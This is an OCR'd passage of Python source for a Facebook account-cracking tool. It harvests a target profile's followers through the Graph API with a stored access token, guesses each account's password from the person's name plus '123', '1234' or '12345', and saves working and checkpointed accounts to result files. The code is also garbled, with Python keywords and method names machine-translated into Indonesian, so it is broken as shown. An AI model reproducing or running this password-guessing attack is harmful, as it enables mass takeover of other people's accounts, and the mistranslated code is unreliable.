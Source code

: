 			lingkaran  +=  1
		kecuali :
			lulus
	p  =  ThreadPool ( 30 )
	hal . peta ( utama , id )
	keluar ( " \n  \033 [0;97m[ \033 [0;96m# \033 [0;97m] Selesai" )

pasti  pengikut ():
	 token global
	coba :
		token  =  buka ( 'login.txt' , 'r' ). baca ()
	kecuali  IOError :
		print ( ' \033 [0;97m[ \033 [0;91m! \033 [0;97m] Token Tidak Valid' )
		tokenz ()
	print ( " \n  \033 [0;97m[ \033 [0;93m* \033 [0;97m] Ketik 'me' jika ingin crack dari followers sendiri" )
	idt  =  raw_input ( " \033 [0;97m[ \033 [0;92m+ \033 [0;97m] ID Publik : " )
	coba :
		pok  =  permintaan . dapatkan ( "https://graph.facebook.com/" + idt + "?access_token=" + token )
		sp  =  json . beban ( pok . teks )
		print ( " \033 [0;97m[ \033 [0;92m+ \033 [0;97m] Nama : " + sp [ "nama" ])
	kecuali  KeyError :
		exit ( ' \033 [0;97m[ \033 [0;91m! \033 [0;97m] ID Publik Tidak Ada!' )
	r  =  permintaan . dapatkan ( "https://graph.facebook.com/" + idt + "/subscribers?limit=5000&access_token=" + token )
	z  =  json . beban ( r . teks )
	untuk  i  in  z [ "data" ]:
		uid  =  saya [ 'id' ]
		nama  =  saya [ 'nama' ]
		id . tambahkan ( uid + '<=>' + nama )
	print ( " \033 [0;97m[ \033 [0;93m* \033 [0;97m] Jumlah ID : \033 [0;91m" + str ( len ( id )))
	ask  =  raw_input ( " \n  \033 [0;97m[ \033 [0;93m? \033 [0;97m] Anda ingin menggunakan password manual? Y/t : " )
	jika  bertanya  ==  "Y"  atau  bertanya  ==  "y" :
		panduan ()
	print ( " \033 [0;97m[ \033 [0;96m+ \033 [0;97m] Akun \033 [0;92mOK \033 [0;97m Disimpan Di : hasil/OK-%s-%s-% s.txt" % ( ha , op , ta ))
	print ( " \033 [0;97m[ \033 [0;96m+ \033 [0;97m] Akun \033 [0;93mCP \033 [0;97m Disimpan Di : hasil/CP-%s-%s-% s.txt \n " % ( ha , op , ta ))
	
	def  utama ( pengguna ):
		 lingkaran global , token
		pwx  = []
		sys . stdout . menulis (
		      ' \r  \033 [0;97m[%s* \033 [0;97m] Retak %s/%s OK-:%s - CP-:%s '  % ( rgb , loop , len ( id ), len ( baik ), len ( cp ))
		); sys . stdout . menyiram ()
		uid , nama = pengguna . membagi ( "<=>" )
		untuk  ss  dalam  nama . bagi ( " " ):
			jika  len ( ss ) < 3 :
				melanjutkan
			lain :
				if  len ( ss ) ==  1  dan  len ( ss ) ==  2  dan  len ( ss ) ==  3  dan  len ( ss ) ==  4  atau  len ( ss ) ==  5 :
					pwx . tambahkan ( ss + "123" )
					pwx . tambahkan ( ss + "1234" )
					pwx . tambahkan ( ss + "12345" )
				lain :
					pwx . tambahkan ( ss + "123" )
					pwx . tambahkan ( ss + "12345" )
		coba :
			untuk  pw  di  pwx :
				pw  =  pw . lebih rendah ()